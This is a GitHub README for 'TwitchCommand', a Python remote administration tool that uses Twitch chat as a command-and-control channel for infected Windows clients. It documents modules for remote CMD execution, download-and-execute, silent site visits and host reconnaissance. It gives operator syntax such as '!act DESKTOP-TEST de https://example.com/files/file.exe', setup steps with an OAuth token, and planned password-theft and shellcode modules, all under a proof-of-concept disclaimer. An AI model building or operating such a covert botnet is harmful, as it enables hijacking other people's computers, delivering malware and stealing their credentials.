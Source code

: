 # TwitchCommand [![PRs Welcome](https://img.shields.io/badge/PRs-welcome-brightgreen.svg?style=flat-square)](http://makeapullrequest.com) [![GPL Licence](https://badges.frapsoft.com/os/gpl/gpl.svg?v=103)](https://opensource.org/licenses/GPL-3.0/) [![Canadian Mental Health Association](https://i.imgur.com/cvXmjWD.png)](https://cmha.ca/donate)
A remote administration tool that uses Twitch Chat as a Command and Control server. This program connects clients to a designated Twitch Chat and listens for commands.

# Requirements
- Twitch account.
- Python 3.x
- PyInstaller (will be required with the next build.)

# Disclaimer
The usage of this program directly violates the Twitch Developer Agreement. The usage of it will lead to the termination of your account and possible further action based on the severity of its usage.

This program was created as a Proof of Concept and it is not intended to be used in a malicious way. I am not responsible for any damages or criminal charges that come from using it.

# Features/Modules
`cmd`  Windows CMD commands. Structured as `cmd command`

`de` Download and execute. File is removed after execution. Structured as `de link`. May throw `Win5 Error` if the user is prompted for UAC. Now supports all file types.

`visit`  Silently visits a website. Structured as `visit link`

`exit` Disconnects the tageted client(s). This does not remove the file. Structured as `exit`

`info` Returns the clients OS (including exact version) and IP address. Structured as `info`

`mbox` Opens a messagebox on the users pc. Structured as `mbox message`


# Usage
Navigate to the twitch page of the channel you selected when making the program.

Upon connection to a server, a new client will announce its presence and client name. If you would like to view a list of all connected clients please use the list command. 

![New Connection.](https://i.imgur.com/fT6yice.png)

`!list`

![List connections.](https://i.imgur.com/RY81sGt.png)

This program also features different modules which can be used.

`!act client command action`

- Act is the keyword to use a command for the client.
- Client specifies a singular user or a group. You can use a specific name (ex: DESKTOP-TEST) or 'all'.
- Command specifies the intended module to use.
- Action is what to use with the selected module. For example 'start.' will open the current directory on the clients PC when using CMD.

An example cmd command would be:

`!act all cmd start.`

![Client action.](https://i.imgur.com/g7d5P83.png)

This would open the current directory on every connected clients PC. Note that the photo is from an older version and True is no longer required.

An example download+execute command would be:

`!act DESKTOP-TEST de https://example.com/files/file.exe`


# Creating the program.
### Coming soon: a builder.
The requirements list is currently not necessary but will be for future builds.

Making the program is quite simple. 
- Change the NICK value on line 11 to your Twitch username.
- Change the PASS value on line 12 to your OAuth password (acquire it here: https://twitchapps.com/tmi/)
- Change the CHAN value on line 13 to a desired channel to listen in. It's recommended to use your personal twitch chat as a streamer may ban an account they see posting odd messages and commands.
- CLIENT_ID and the email information are currently not in use. The email functions will be used for password recovery and the CLIENT_ID will be a Imgur API client ID for screenshot uploads.

# Upcoming features
- Password recovery module.
- Screenshot module.
- Shellcode execution module (maybe.)
- A builder to simplify making the program as well as making it an exe.
- Command line based control module as an alternative to the twitch website.

# Acknowledgements
- n00py and Coalfire Research for inspiration from the [Slackor project.](https://github.com/Coalfire-Research/Slackor)
- nathanlopez from the Stitch project for the `mbox` [code.](https://github.com/nathanlopez/Stitch/blob/master/PyLib/popup.py)
